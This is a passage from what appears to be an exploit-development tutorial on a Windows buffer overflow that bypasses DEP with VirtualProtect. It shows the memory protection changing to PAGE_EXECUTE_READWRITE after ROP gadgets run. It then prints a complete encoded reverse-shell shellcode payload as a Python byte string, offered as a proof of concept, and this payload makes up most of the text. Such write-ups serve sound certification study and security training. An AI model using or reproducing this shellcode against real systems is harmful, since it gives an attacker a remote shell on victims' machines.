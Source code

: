 And after we execute the gadgets, we found that the protection of the desired area was changed! We have done it!

```
Protect:           00000040  PAGE_EXECUTE_READWRITE
```

![](https://0x4rt3mis.github.io/assets/img/osed/2023-01-31-Buffer%20Overflow-DEP-VirtualProtect/ecx-esp.gif)

# Reverse Shell

Now, just add our reverse shell in it, we have the PoC here

```py
shellcode =  b""
shellcode += b"\xda\xdd\xd9\x74\x24\xf4\x5d\x31\xc9\xb1\x5e"
shellcode += b"\xbf\x85\xf0\x6d\xbf\x83\xed\xfc\x31\x7d\x15"
shellcode += b"\x03\x7d\x15\x67\x05\xe4\x5a\xe6\x22\x07\x5d"
shellcode += b"\x17\x55\xd9\x57\x83\x21\x6b\x58\xc0\x40\x80"
shellcode += b"\x13\xa0\xb0\x13\x7d\x44\x42\x5d\xa2\xdf\x62"
shellcode += b"\xc4\x9b\x90\x92\x7d\x2e\xc5\xa5\x23\x47\x6c"
shellcode += b"\xae\x30\x03\x66\x5b\x39\x53\x89\xc4\x4d\xef"
shellcode += b"\x49\x8e\x2e\xf3\xc9\x91\x11\x78\x66\x8a\x26"
shellcode += b"\x38\x58\xab\xe0\x4e\xdd\x57\xf3\x67\x94\x2c"
shellcode += b"\xb1\x7b\xad\x07\xb2\x85\x6f\x56\x02\x1c\x73"
shellcode += b"\x35\x06\xdf\xff\x41\xc6\x2a\xf2\x4c\x0a\x41"
shellcode += b"\xf8\x74\xde\xb2\x24\xfe\x01\x31\x73\x24\xbf"
shellcode += b"\x9c\x1d\xaf\xb3\x6a\x6a\xf8\xd7\x6b\xb6\x8c"
shellcode += b"\xec\xe1\x47\x4b\x65\xb1\x63\x77\x17\xf9\x03"
shellcode += b"\x04\x6e\x48\xab\xf5\xc4\xb7\xc2\x4f\xf7\xdf"
shellcode += b"\x5a\x01\xf9\xf3\x9d\xcb\x01\x85\x24\xe0\x61"
shellcode += b"\xe7\x58\xbb\x64\xf8\xf1\xb8\x01\x43\xe1\xf1"
shellcode += b"\xd1\x2a\xa9\x9e\xbd\xe2\xa1\x6d\x0c\x2d\x55"
shellcode += b"\xfa\x07\x42\xa7\xa5\xb3\x5b\x92\x4d\xb5\x67"
shellcode += b"\x74\xa5\x28\x9b\xbf\xc6\xe6\x60\x36\x7d\x15"
shellcode += b"\x01\x91\x77\xd0\x7c\xde\xdd\x1e\xf6\x65\xfe"
shellcode += b"\x76\x04\xdf\xd3\x35\xeb\x4a\x28\xb3\x51\x50"
shellcode += b"\xb9\x23\x68\x51\xdf\x1a\x1b\x64\x09\x95\x4c"
shellcode += b"\x57\x89\x43\xd5\x95\x0b\xdc\xda\xcc\x17\xed"
shellcode += b"\xe4\xbe\x77\x5d\x55\x38\x28\x71\x90\x14\x88"
shellcode += b"\xd9\x65\xc1\x28\x53\x5f\xd8\xe8\x33\x30\x72"
shellcode += b"\x29\x1b\xca\x4e\xcf\xe4\x2a\xf5\xd1\xf5\x3d"
shellcode += b"\x6f\x51\x35\x3f\x3f\x01\xe9\x71\x7f\xf9\x45"
shellcode += b"\x22\x2f\xfe\x75\x92\x98\xa8\x8a\x47\x02\x03"
shellcode += b"\x23\x3e\x7b\x6b\x9b\xee\xcb\xeb\x2d\xc6\x9a"
shellcode += b"\x6c\x4c\x10\x8c\x5d\x8f\xf0\x7c\xce\x5f\xa1"
shellcode += b"\x2c\xbe\x0f\x11\x9c\x8e\xf4\xc1\x48\xb0\x4c"
shellcode += b"\x7a\xf7\xd4\x52\x8a\x2f\xb8\xc4\x16\xa2\x5d"
shellcode += b"\x3b\x8d\x67\x17\xa3\x1c\x5e\x41\x9d\xcf\x63"
shellcode += b"\xa7\x15\xbf\x34\x86\x65\x10\xea\xb8\x25\xc1"
shellcode += b"\x42\x69\xf6\xb2\x02\x76\xa3\x2c\x93\x41\x1d"
shellcode += b"\x27\x2c\xae\xcb\xa7"
```
